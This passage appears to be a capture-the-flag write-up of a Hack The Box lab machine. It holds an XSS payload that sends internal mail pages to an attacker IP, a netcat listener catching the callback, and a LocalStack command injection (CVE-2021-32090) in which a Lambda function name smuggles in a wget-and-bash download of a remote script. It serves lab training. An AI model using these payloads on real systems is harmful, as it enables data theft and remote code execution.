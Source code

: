 ```bash
❯ nc -lvnp 3000
listening on [any] 3000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.228.28] 40874
POST / HTTP/1.1
Host: 10.10.16.4:3000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=3
Content-Length: 10956
Content-Type: text/plain;charset=UTF-8
Origin: http://mail.stacked.htb
Connection: keep-alive

Resp Code: 200
Page Source:
```

will be empty without id.

```js
var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
	if(this.readyState == 4 && fetch_req.readyState == XMLHttpRequest.DONE) {
		var exfil_req = new XMLHttpRequest();
		exfil_req.open("POST", "http://10.10.14.43:3000", false);
		exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
	}
};
fetch_req.open("GET", "http://mail.stacked.htb/read-mail.php?alvin=007", false);
fetch_req.send();
```

### CVE-2021-32090
```bash
❯ curl s3-testing.stacked.htb
{"status": "running"}
```

Get from `docker-compose.yml` which is the LocalStack dashboard port mapped to - "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}".

And we assumption, which will be verified later, is that the web browser that is executing our XSS payloads is running on the same machine as the LocalStack instance, and thus will be able to access the web UI.

##### Create lambda function
HTB academy ${IFS} 	Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $())
```bash
aws lambda --endpoint=http://s3-testing.stacked.htb create-function \
    --region ap-northeast-1 \
    --function-name "api;wget\${IFS}10.10.16.4/runme.sh;bash\${IFS}runme.sh" \
    --runtime nodejs8.10 \
    --handler lambda.apiHandler \
    --memory-size 128 \
    --zip-file fileb://api-handler.zip \
    --role arn:aws:iam::123456:role/irrelevant
    ```

{
    "FunctionName": "api;wget${IFS}10.10.16.4/runme.sh;bash${IFS}runme.sh",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:api;wget${IFS}10.10.16.4/runme.sh;bash${IFS}runme.sh",
    "Runtime": "nodejs8.10",
```